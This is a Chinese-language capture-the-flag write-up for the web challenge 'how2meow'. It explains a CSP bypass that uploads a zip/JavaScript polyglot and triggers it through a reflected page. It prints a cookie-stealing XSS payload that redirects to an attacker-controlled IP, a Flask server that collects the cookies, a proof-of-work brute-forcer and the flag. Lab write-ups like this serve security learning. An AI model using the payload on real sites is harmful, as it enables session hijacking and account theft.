





# how2meow

Web, 251/500 Points

Auther: **kaibro**

Writeup By: **yctseng1227**、**stavhaygn**

## Description

> 由於官方題目網站已關閉，以下只能簡述題目

從題目給的網站，我們有三種操作頁面大致如圖。



## Solution

> 由於官方題目網站已關閉，以下只能拿競賽期間的截圖作為示意圖

### 初步操作

- Meow me

    隨意輸入字串，送出後只會吐出輸入的的字串。

- Meow Uploader

    上傳任何檔案，送出後只會吐出該檔案的副檔名。

    另外還有提供 `Meow src` 可以從source code觀察後台執行方式。

- Report to admin

    可以輸入URL以及PoW驗證，很明顯是拿flag的最後一步。


### 實際操作

從 `Meow me` 頁面按下`F12`可以發現亮了一大片紅字 =口=!!



拿去 [CSP-evaluator](https://csp-evaluator.withgoogle.com/) 發現該網站CSP機制不完全，可嵌入在該網站上傳的檔案。

從 `Meow Uploader` 可以點 `Meow src`(source code) 發現上傳只接受副檔名為 `.meow` 的檔案，接著對其檔案執行 `unzip` 指令，檢查解壓縮後為 `meow` 的檔案，是否開頭為 "edu-ctf" 字串，若檢查皆成功，將成功上傳檔案，否則上傳檔案失敗。

因此配合前面提到的 `Meow me` ，我們可以對剛檔案做一些壞壞的事^~^+


[m.meow]()
```
document.location='http://140.117.xxx.xxx:9487/?c=' + document.cookie;
/*
PK...
*/
```


以 `m.meow` 來說，除了原本壓縮檔的binary code，我們在開頭插入JS code，想藉由跳轉的方式，讓admin的cookies能夠自動傳到我們自己建的伺服器中，而該檔案上傳到官方伺服器後，會出現該檔案的位置（示意圖如下）。




既然有了檔案在官方伺服器的位置，那我們也能夠利用 `Meow me` 輸入JS code去觸發該檔案讓其執行`m.meow`內的JS code（示意圖如下）。



作為Web初學者，下方也說明一下如何快速自建伺服器。

> 作業環境 Ubuntu 18.04 / Python 3.6

```shell
$ sudo pip3 install flask
$ sudo pip3 install flask_cors
$ python3 app.py
```

[app.py]()
```python
from flask import Flask, request
from flask_cors import CORS

app = Flask(__name__)
CORS(app)

@app.route('/')
def index():
    cookie = request.args.get('c', None)
    if cookie:
        return cookie
    return 'hELLo'

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=9487)
```

建好伺服器後，送出 `Meow me` 的時候應該多少會收到PHPSESSID，那就是有成功運作～

而 `Meow me` 頁面送出 URL request 就是我們最後要拿去 `Report to admin` 的XSS URL。

除此之外，還需要計算PoW，相關介紹可以參考另一篇 Writeup [Ponzi Scheme](https://github.com/MacacaHub/CTF-writeups/blob/master/AIS3%20EOF%20CTF%202019/Ponzi%20Scheme/readme.md)，不過作法上可以直接Python用排列組合爆搜答案即可。

```python
#!/usr/bin/env python3
import itertools
import string
from hashlib import *
from pwn import *

cond = "kaibro"
#cond = r.recvuntil("'").decode('ascii').rstrip("'")
ans = ''
alphanumeric = string.ascii_uppercase + string.ascii_lowercase + string.digits
for s in itertools.product(alphanumeric, repeat=4):
    if md5(('%s%s'%(cond, ''.join(s))).encode('utf-8')).hexdigest().startswith('6b509'):
        ans = cond + ''.join(s)
        break

print(ans)
```

最後送出 `Report to admin` 結果如下，可以從自建的伺服器收到官方傳過來的 admin's cookies，稍微整理一下就是FLAG啦！





**`FLAG{u_r_m3ow_xss_m4ster}`**


---

延伸閱讀：
- [Content-Security-Policy](https://devco.re/blog/2014/04/08/security-issues-of-http-headers-2-content-security-policy/)
- [同源政策（Same Origin Policy）](https://medium.com/@jaydenlin/same-origin-policy-同源政策-一切安全的基礎-36432565a226)
